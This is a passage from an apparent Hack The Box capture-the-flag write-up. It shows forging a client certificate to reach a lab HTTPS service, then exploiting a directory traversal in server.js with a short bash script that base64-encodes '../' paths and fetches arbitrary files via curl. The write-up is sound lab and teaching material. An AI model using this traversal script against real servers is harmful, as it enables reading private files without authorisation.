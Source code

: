 _Export the client certificate_


{% include image.html image_alt="d87fe7a8.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/d87fe7a8.png" %}


Copy the client certificate in the PEM format to my attacking machine and combine with the private key generated earlier to a PCKS#12 certificate format because that's what Firefox accepts.


{% include image.html image_alt="8a336748.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/8a336748.png" %}


Import the client certificate to Firefox.


{% include image.html image_alt="d79d838a.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/d79d838a.png" %}


We can now access the `https` service.


{% include image.html image_alt="a610aabd.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/a610aabd.png" %}


### Directory Traversal Vulnerability

It's not long before I spotted a directory traversal vulnerability with `server.js`. Not only that, I can also download any file as `berlin`.


{% include image.html image_alt="cd1e84f6.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/cd1e84f6.png" %}


Towards that end, I wrote a real simple `bash` script to read any file as `berlin`.

<div class="filename"><span>read.sh</span></div>

```bash
#!/bin/bash

URL=https://lacasadepapel.htb/file
FILE=$(echo -n ../../..$1 | base64 -w0)

curl -s \
     -k \
     --cert-type P12 \
     -E me.p12 \
     $URL/$FILE
```

Here's `user.txt`.


{% include image.html image_alt="13c35673.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/13c35673.png" %}

